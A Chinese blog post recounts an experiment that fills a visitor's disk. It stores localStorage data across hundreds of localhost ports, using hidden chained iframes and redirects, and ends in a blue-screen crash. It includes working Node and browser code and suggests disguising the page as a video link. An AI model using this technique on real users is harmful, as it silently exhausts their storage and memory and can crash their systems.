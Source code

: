 ```yaml
---
layout: post
title: "作为一个前端，可以如何机智地弄坏一台电脑？"
date: 2015-07-06 22:30
comments: true
reward: true
tags: 
	- 安全 
	- js
	- 黑科技
---
```


有人说，前端的界限就在浏览器那儿。

无论你触发了多少bug，最多导致浏览器崩溃，对系统影响不到哪去。
这就像二次元各种炫酷的毁灭世界，都不会导致三次元的世界末日。
然而，作为一个前端，我发现是有方式打开次元大门的…

这个实验脑洞较大，动机无聊，但某种意义上反映了一些**安全问题**。
想象一下，有天你在家里上网，吃着火锅还唱着歌，**点开一个链接，电脑突然就蓝屏了**！想想还真有点小激动。
<!-- more -->

### 起因

故事得从localStorage说起。

html5的本地存储，相信大家都不陌生。将数据以二进制文件形式存储到本地，在当前应用得非常广泛。
windows下的chrome，localStorage存储于``C:\Users\xxx\AppData\Local\Google\Chrome\User Data\Default\Local Storage``文件夹中。但如果任由网页无限写文件，对用户硬盘的伤害可想而知，因而浏览器对其做了大小限制。

对于一个域名+端口，PC侧的上限是5M-10M之间，移动侧是则不大于2.5M。

那么问题就变成：**这样的限制足够保护用户硬盘了吗**？

### 关键

关键的问题在于，这一限制，针对的是一个``域名+端口``。
也就是说，你访问``同一个域名的不同端口``，它们的localStorage并无关联，是分开存储的。

我用node简单地开启了服务器，这时，用户访问``http://127.0.0.1:1000``到``http://127.0.0.1:1099``这100个端口，会请求到同一个页面：``index.html``：

``` js
var http = require('http');
var fs = require('fs');

//100个端口
for(var port = 1000; port< 1100; port++){
  http.createServer(function (request, response) {
    //请忽略这种循环读文件的方式，只为了简便
    fs.readFile('./index.html', function(err, content){
      if(err) {
      } else {
        response.writeHead(200, { 'Content-Type' : 'text/html; charset=UTF-8' });
        response.write(content);
        response.end();
      }
    });
  }).listen(port, '127.0.0.1');
}
```

当然，这个index.html里涉及了localStorage写操作。

``` js
var s = "";
//慢慢来，别写太大了，好害怕…
for(var i=0; i< 3 * 1024 * 1024; i++){
  s += "0";
}
localStorage.setItem("testData", s);
```

我试着用浏览器分别访问了几个端口，结果是分开存储。一切跟剧本一样。

### 自动遍历

但这种程度还不够。
如果要实验变得更好（xie）玩（e）一些，问题就变成如何``让用户自动遍历这些端口``？

iframe是个好的尝试。
只要一打开``http://127.0.0.1: 1000``，页面的脚步就会创建一个iframe，去请求``http://127.0.0.1: 1001``，一直循环下去。

``` js
var Main = (function(){
  var _key = "testData";
  var _max = 1100; //最大限制
  return {
    init: function(){
      //慢慢来，别写太大了，好害怕…
      var s = "";
      for(var i=0; i< 3 * 1024 * 1024; i++){
        s += "0";
      }
      localStorage.setItem(_key, s);

      var port = parseInt(location.port)+1;
      if(port > _max) return;

      //新添加iframe
      var url = "http://127.0.0.1:" + port;
      var $iframe = document.createElement("iframe");
      $iframe.src = url;
      document.getElementsByTagName("body")[0].appendChild($iframe);
    }
  }
})();
```

当然iframe我们还可以设置为不可见，以掩盖这种不厚道的行为…
比方说，有人发给你一个链接，你打开后发现是个视频，而你根本注意不到背后的脚本，在视频播放的几分钟里，快要把你的C盘写满。

然后我就看到请求如潮水渐涨：
![](/assets/blogImg/localstorage1.png)

但是，请求到1081端口，最新的chrome就崩溃掉了…原来iframe嵌套太多，已经到达了浏览器的极限。

###防止浏览器崩溃

C盘还未撑满，同志还需努力。怎么办？

突然想到，到达iframe极限之前，我们可以重定向啊。
每访问50个端口，就使用``window.location.href``重定向一次，去确保浏览器不崩溃。

``` js
var Main = (function(){
  var _key = "testData";
  var _max = 1200; //最大限制
  var _jumpSpace = 50; //为避免iframe过多导致浏览器crash，每50个执行跳转

  return {
    init: function(){
      //慢慢来，别写太大了，好害怕…
      var s = "";
      for(var i=0; i< 3 * 1024 * 1024; i++){
        s += "0";
      }
      localStorage.setItem(_key, s);

      var port = parseInt(location.port)+1;
      if(port > _max) return;

      if(port % _jumpSpace == 0){
        //每50个，重定向一次
        window.location.href = url;
      }else{
        //新添加iframe
        var $iframe = document.createElement("iframe");
        $iframe.src = url;
        document.getElementsByTagName("body")[0].appendChild($iframe);
      }
    }
  }
})();
```

事实证明，这种蛮拼的方法的确可行。

至此，只要访问``http://127.0.0.1: 1000``，就会往Local Storage文件夹里写入近500M无用数据：
![](/assets/blogImg/localstorage3.png)

里面的数据是这样的：
![](/assets/blogImg/localstorage2.png)


### 继续实验的黑科技

算了下我的C盘还有空间嘛，那就把端口数量从100增长到200个。
结果是这样的，到达了1.17G大小。
![](/assets/blogImg/localstorage4.png)

在后续的实验中，我就慢慢的把端口数量与存储的数据调大。

电脑也运行得越来越慢。这是为什么呢？

我观察到，有时候执行``localStorage.setItem()``后，在文件夹里不一定立即能看到数据文件。
怀疑这些数据会被chrome先放到内存里，以避免重复读写带来的消耗，在空闲或关闭的时机，再写进硬盘里。

但此时，浏览器已经影响到系统了。它处于一种“不会崩溃”，但“因为占用了许多内存，已经妨碍用户电脑的正常使用”的状态。
即使用户关闭了浏览器窗口，也不会很快恢复。要知道读写任务并不是随窗口关闭而终止的，否则浏览器会丢失数据。

遭遇黑科技的人们能做的只有：
1. 等待；
2. 用任务管理器关掉chrome进程，再等待；
3. 相信并尝试“重启电脑解决90%电脑问题”的科学论断

可以说，浏览器的内心几乎是崩溃的。

### 最后

最后，还是得用严肃脸告诫一下：害人之心不可无。
本实验，从一开始就是怀揣着将``安全问题上交给国家的初衷``去做的（是的就是这么纯粹）。

后续，看着C盘还有2G空间，我又把端口增长到2000个，试下会发生什么。
由于请求过多，需要一定时间，我就去做别的事情了。
回来后发现房间安静祥和，美轮美奂，一片蓝光，像是加了特技。

![](/assets/blogImg/localstorage5.png)

那么问题来了，计算机修理哪家强？
有点急…

